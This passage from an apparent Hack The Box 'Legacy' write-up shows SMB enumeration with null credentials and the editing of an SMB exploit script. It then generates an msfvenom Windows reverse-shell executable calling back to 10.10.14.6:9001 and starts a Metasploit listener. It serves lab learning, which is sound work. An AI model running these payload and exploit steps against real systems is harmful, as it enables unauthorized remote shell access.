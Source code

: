 ```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbmap -H 10.10.10.4 -u "" -p ""
[+] IP: 10.10.10.4:445	Name: 10.10.10.4                                        
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ smbmap -H 10.10.10.4 -u null -p ""
[!] Authentication error on 10.10.10.4
```

It looks like giving a literal blank username is what we want. So I edited `exploit.py`:

![](/assets/images/blogs/Pasted image 20210502103619.png)

I also had to copy across `mysmb.py`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ cp ../blue/mysmb.py .
```

Then I needed a payload. I did a search for windows payloads to see if there were any specific Windows XP ones:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfvenom -l payload | grep windows
```

It looked like there weren't, so I went for the most generic one:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.6 lport=9001 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

I then edited the script to upload the new payload:

![](/assets/images/blogs/Pasted image 20210502104328.png)

I then started a listener:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/legacy]
└─$ msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 9001
lport => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:9001 
```
